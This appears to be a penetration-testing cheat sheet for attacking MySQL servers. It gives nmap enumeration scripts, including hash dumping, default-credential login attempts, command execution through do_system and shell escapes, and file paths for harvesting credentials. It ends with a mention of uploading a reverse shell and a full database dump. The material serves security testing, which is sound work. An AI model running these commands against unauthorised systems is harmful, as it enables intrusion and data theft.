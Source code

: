 ## Pre Enumeration

### Nmap Scanning

	nmap -sV -Pn -vv --script=mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 $ip -p 3306

	nmap -sV -Pn -vv -script=mysql* $ip -p 3306

### If accessable

If Mysql is running as root and you have access, you can run commands:

	mysql> select do_system('id');

	mysql> \! sh

### Always test root:root credential
	mysql --host=$ip -u root -p
	
	mysql -h $ip -u wpmaster@localhost -p
	
	mysql -h $ip -u root@localhost
	
	mysql -h $ip -u ""@localhost
	
	telnet $ip 3306

### Username Enumeration

	nmap –script=mysql-enum –script-args userdb=<username lists> $ip

### Connection

	mysql -h $ip -P 3306
	
	mysql -u <user> -p <password>
	
	mysql -u root -p

## Post Enumeration

### MySQL server configuration file
	
	- Unix
	    
	    my.cnf
	    
	    /etc/mysql
	    
	    /etc/my.cnf
	    
	    /etc/mysql/my.cnf
	    
	    /var/lib/mysql/my.cnf
	    
	    ~/.my.cnf
	    
	    /etc/my.cnf
	    
	
	- Windows
	    
	    config.ini
	    
	    my.ini
	    
	    windows\my.ini
	    
	    winnt\my.ini
	    
	    <InstDir>/mysql/data/
	    

### Command History

	~/.mysql.history

### Log Files

	connections.log

	update.log

	common.log

### Finding passwords to MySQL

- You might gain access to a shell by uploading a reverse-shell. And then you need to escalate your privilege.

- Look into the database and see what users and passwords that are available.    
    /var/www/html/configuration.php
### Getting all the information from inside the database

	mysqldump -u admin -p admin --all-databases --skip-lock-tables